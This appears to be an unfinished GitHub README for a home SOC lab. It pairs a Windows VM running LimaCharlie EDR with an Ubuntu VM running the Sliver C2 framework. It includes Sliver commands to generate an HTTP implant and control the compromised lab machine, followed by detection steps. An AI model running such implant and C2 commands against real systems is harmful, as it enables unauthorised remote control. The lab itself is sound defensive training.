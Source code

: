 # Home-Soc-Analyst-Project- Need to edit this whole thing and add some images
-A simple setup to make a Security Operation Center, Using Both Ubuntu and win11


Objectives With this project: Make a lab where one machine is an attacker and the other one is the defender, using LimaCharlie to see the telemetry and creation of YARA "Yet Another Recursive Acronym" and Sigma rules, blocking C2 "Command and Control" and privilege scalation, blocking automation using *Sliver*


What i m gonna need:
-a copy of windows 
-a ubutuntu copy 

Part 1 - Put yourself in Adversary Place *Taking Notes and making observations*.

Part 2- Simulating the adversary attack to notice detections.

Part 3- Blocking A Attack. 

Part 4- Adjusting False Positives.

Part 5- Scaning with YARA through rules of detection. 


Explaining a little of LimaCharlie. 
It is a platform of SecOps based in cloud with the focus being EDX/XDR *detection and response* collecting telemetry through the analysis of logs and Security Automation, being able to manage EndPoint Security.

<img width="632" height="309" alt="image" src="https://github.com/user-attachments/assets/b133ad4e-e7c2-4721-90d9-ef932e4d5789" /> 

-Creating a Organization on LimaCharlie 
-Name: it can be any but i choose *Home Soc Analyst*
-Data Residency Region: Closest avaiable  
-Template: No pre-configuration *but you can customize one for different purpouse*

*adicionar imagem do criando organização

-Sensors 
-Main fonts of receiving data on LimaCharlie, operating through many plataforms that are compatible and sending events in JSON throught the cloud of LimaCharlie live. (Change Later).
*adicionar imagem do sensores

-adding a new sensor 
1. Select Endpoint
2. Select Windows
3. I choose: *Windows VM -Lab* but you can choose through your preference
4. Create
5. Select The key that you just make

//add image of installation key 

-Installing a Sensor or Endpoint
//Add Image

Waiting for new sensors. 
-> configure the Virtual machines, and install the EDR of LimaCharlie in the windows system. 


-Windows EDR - Seonsors, monitoring and rules of defense.

open CMD and execute both those commands:
- cd C:\Users\Administrator\Downloads 
- install Key from LimaCharlie: lc_sensor.exe -i *[your_installation_key]*

will POP *connection acquired* of cmd and Lima charlie 
->ad both cmd and lima charlie images to the system. 

-Artifact Colletion:
      They are records of events and data collected from endpoints, networks, and other sources of threat analysis and response. These artifacts can be used for forensic investigation.

<add image>

name: windows-sysmon-logs 
Pattern: well://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10 Days
Platform: Windows

<add image>

-Extensions *ext-sigma*
Sigma is a detection rule format, enabling rules to identify malicious behavior.

<add image>

-Configuring the Virtual Machine (Linux)

<add image>
      
sudo su – enable the device as superuser.

systemctl status sliver – check if Sliver is active.

<add image>

– Sliver
Sliver is an open-source command-and-control (C2) framework developed by BishopFox, designed for Red Team operations, penetration testing, and adversary simulation. It serves as a modern alternative to tools such as Cobalt Strike and Metasploit, offering support for multiple platforms and secure communication.
Here’s the translation:

<add image>

http – check if the machine is “listening” for possible connections.

jobs – check if the machine has any active processes.

Generating our C2 implant
It is a payload that enables attackers to remotely control a compromised device, through C2 (command and control).
<add image>

generate –http <linux_vm_ip> –save /var/www/payloads 
<add image>

– Accessing the file through Windows
<add image>

– On the Linux machine
<add image>

use [session_id] – replace session_id with the number shown in the image above (in this case bc318fc1).
<add image>

info – simple command to gather information such as machine name, malware name, system type, and language location
<add image>

whoami: basically a “who am I” in Linux — in this specific case, it shows the machine name and its escalation.

pwd: shows the directory path — in this case C:\Users\Administrator\Downloads.

<add image>

netstat: displays the connections currently occurring on the remote system.

ps -T: identifies the processes running on the remote system in a “tree” format.
<add image>

– Going back to the Sensors part

rocesses in the LimaCharlie section – shows the processes running in the LimaCharlie environment.
<add image>

Now that a “suspicious” process has been found: MARKED_REVIEW.exe
<add image>

Connection established with the program MARKED_REVIEW.exe, including the base connection and the destination.
<add image>

Next, following the line of “viewing network connections.”
<add image>

Network – list of connections made, including connections between suspicious files.
<add image>

File System – lists the files on the computer, allowing an easy path to locate them.
<add image>

Scan on VirusTotal to check if there is any process similar or identical, to see if there is a solution for a potential old or documented malware.
<add image>

Hash – ba39c9077470488fed6f7bd37f9539010d6c5b852bb658309b98116edcaf326c
<add image>

Since in this case there is no match, a new detection and response rule needs to be created.
<add image>

Telemetry – real-time data collection and analysis, enabling the creation of defense and detection rules.
<add image>
